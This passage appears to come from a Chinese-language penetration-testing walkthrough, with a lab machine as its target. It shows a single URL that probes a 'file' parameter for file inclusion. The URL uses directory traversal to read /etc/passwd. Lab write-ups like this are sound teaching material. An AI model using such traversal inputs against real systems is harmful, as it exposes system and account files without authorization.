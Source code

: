![image-20230811201356634](./imgs/image-20230811201356634.png)

尝试是否存在文件包含漏洞

```bash
http://192.168.80.142/manage.php?file=../../../../../../../../../../../etc/passwd
```



![image-20230811201556215](./imgs/image-20230811201556215.png)
